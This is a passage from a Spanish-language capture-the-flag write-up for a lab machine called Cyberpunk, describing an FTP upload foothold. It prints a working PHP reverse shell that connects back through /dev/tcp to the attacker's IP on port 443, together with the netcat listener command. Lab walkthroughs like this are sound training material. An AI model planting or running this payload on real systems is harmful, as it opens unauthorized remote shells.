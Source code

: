 ```text

```


A diferencia, de lo que especificaba el nombre, no nos da ninguna información tan relevante, a parte de decirnos que están migrando y que hay una vulnerabilidad.




Fijándonos en el directorio `ftp`, nos fijamos que podemos subir archivos, así que lo que haremos es crear una `reverse shell` en `php` para acceder mediante el navegador.


Para crear la `reverse shell`, lo hacemos con el siguiente código:


```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.119/443 0>&1'");
```


lo subimos con el comando `put`


<br>
![](/blog/assets/thehackerslabs.com_cyberpunk/paso_4.JPG)
<br>




Abrimos una nueva terminal para usarlo como puerto de escucha, en el cual ejecutaremos la siguiente instrucción:


```ssh
nc -lnvp 443
```


<br>
![](/blog/assets/thehackerslabs.com_cyberpunk/paso_5.JPG)
<br>
